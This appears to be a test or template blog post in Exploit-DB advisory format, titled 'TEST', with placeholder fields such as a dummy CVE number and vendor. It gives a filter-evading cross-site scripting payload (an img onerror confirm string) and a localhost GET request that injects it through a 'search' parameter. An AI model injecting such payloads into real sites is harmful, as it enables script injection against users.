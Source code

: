 ```yaml
---
layout:     post
title:      "TEST"
date:       2020-01-18
author:     "Tufan Gungor"
category:   exploit
tags:       [xss, cross site scripting, exploit-db]
---
```


# Exploit Title: Exploit Title
# Google Dork: intext:"google dork"
# Date: 2020-01-18
# Exploit Author: Tufan Gungor
# Vendor Homepage: tufangungor.github.io
# Software Link: tufangungor.github.io
# Demo Site: tufangungor.demo.io
# Version: 10.0.6
# Tested on: Kali Linux
# CVE: CVE-1111-11111

# Vulnerable Parameter: search

# Payload: <--`<img/src=` onerror=confirm``> --!>

# GET Request: http://localhost/?search=<--`<img/src=` onerror=confirm``> --!>

